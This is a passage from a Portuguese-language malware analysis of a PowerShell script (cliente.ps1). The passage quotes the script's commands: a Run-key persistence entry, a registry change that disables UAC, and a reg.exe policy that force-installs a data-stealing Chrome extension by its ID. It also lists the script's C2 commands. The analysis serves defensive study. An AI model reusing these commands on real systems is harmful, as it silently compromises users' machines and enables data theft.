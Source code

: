```powershell
# Adiciona o script à inicialização do Windows
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "PWSecurity" -Value "$env:APPDATA\$nomebat" -Force

# Desativa o UAC (User Account Control)
Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' -Name 'EnableLUA' -Value 0
```  

Dessa forma o script é executado automaticamente em toda inicialização e como o UAC foi desativado permite execução de comandos sem notificação ao usuário.  

### **4. Instalação de Extensão Maliciosa no Chrome**  

### Passos Executados

1. **Forçar Instalação via Política do Chrome**:  

   ```powershell
   reg.exe add "HKEY_LOCAL_MACHINE\Software\Policies\Google\Chrome\ExtensionInstallForcelist" /v 1 /t REG_SZ /d "nplfchpahihleeejpjmodggckakhglee;https://clients2.google.com/service/update2/crx" /f
   ```  

   - **Extensão Maliciosa**: O ID `nplfchpahihleeejpjmodggckakhglee` corresponde a uma extensão, projetada para roubo de dados (será mostrado na seção **Extensões Maliciosas**).  

2. **Reiniciar o Chrome**:  
   - Mata o processo do Chrome (`taskkill /F /IM chrome.exe`).  
   - Reabre o navegador para carregar a extensão forçada.  

3. **Verificação de Sucesso**:  
   - Confirma se a extensão foi instalada (`OKEXT` ou `NOEXT` via porta 5556).  

### **5. Comandos Suportados pelo Servidor C2**  

O script responde a comandos remotos, incluindo:  

| Comando         | Ação                                                                                   |  
|-----------------|---------------------------------------------------------------------------------------|  
| `DISCONNECT`    | Encerra o script e mata o processo atual.                                             |  
| `REMOVEKL`      | **Auto-destruição**: Remove arquivos (`cliente.ps1`, `.bat`) e a entrada de registro. |  
| `START_SCREEN`  | **Ataque Principal**: Força instalação da extensão maliciosa e coleta dados.          |  

## Extensões Maliciosas

Conforma analisado anteriormente o script `cliente.ps1`, faz referência a uma extensão na **chrome web store**. Para ter acesso a essa extensão basta abrir o **chrome web store** e buscar por:

```shell
nplfchpahihleeejpjmodggckakhglee
```

Conforme mostrado na figura a seguir:
